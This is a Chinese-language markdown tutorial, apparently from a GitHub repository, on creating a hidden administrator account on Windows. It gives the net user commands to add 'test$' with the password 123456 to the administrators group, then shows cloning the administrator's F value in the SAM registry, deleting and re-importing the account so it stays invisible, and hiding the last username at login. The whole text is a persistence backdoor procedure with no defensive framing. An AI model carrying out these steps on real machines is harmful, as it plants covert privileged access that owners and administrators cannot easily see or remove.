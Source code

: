 # 

# Windows创建隐藏用户

> 命令行输入`net user`查看用户

## 新建用户

命令行输入`net user test$ 123456 /add`创建隐藏用户，输入`net localgroup administrators test$ /add`将新建的用户移到管理组
	
## 导出test$和administrator用户注册表信息
运行输入`regedit`打开注册表
### 获取SAM权限

<img src="https://pic.imgdb.cn/item/64db35e61ddac507cc6171b4.jpg" style="zoom: 80%;" />

<img src="https://pic.imgdb.cn/item/64db36071ddac507cc61d287.jpg" style="zoom: 67%;" />

### 导出test$用户信息

路径：`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$`

<img src="https://pic.imgdb.cn/item/64db381d1ddac507cc66cacf.jpg" style="zoom:50%;" />

### 导出test$的UID值

<img src="https://pic.imgdb.cn/item/64db38ed1ddac507cc68ad15.jpg" style="zoom: 50%;" />

![](https://pic.imgdb.cn/item/64db393b1ddac507cc69588c.jpg)

### 导出administrator的UID项

用同样的方法导出administrator的UID项

都完成后桌面上有这些注册表文件：

![](https://pic.imgdb.cn/item/64db3a031ddac507cc6b28da.jpg)

​	

## 修改导出的注册表信息

将admin_uid中的F值，复制到uid中的F值

<img src="https://pic.imgdb.cn/item/64db3a6e1ddac507cc6c1a53.jpg" style="zoom:50%;" />

​	

## 删除test$用户，导入注册表

命令行输入：`net user test$ /del`删除test$用户

导入桌面上的 `test` 和 `uid` 注册表文件

导入 `test` ：

<img src="https://pic.imgdb.cn/item/64db3b741ddac507cc6e8217.jpg" style="zoom:67%;" />

导入`uid` 也一样

​	

## 设置登录时不显示最后的用户名

运行输入：`gpedit.msc`打开组策略

<img src="https://pic.imgdb.cn/item/64db3ccf1ddac507cc71aacb.jpg" style="zoom:67%;" />

<img src="https://pic.imgdb.cn/item/64db3cfe1ddac507cc721663.jpg" style="zoom: 67%;" />

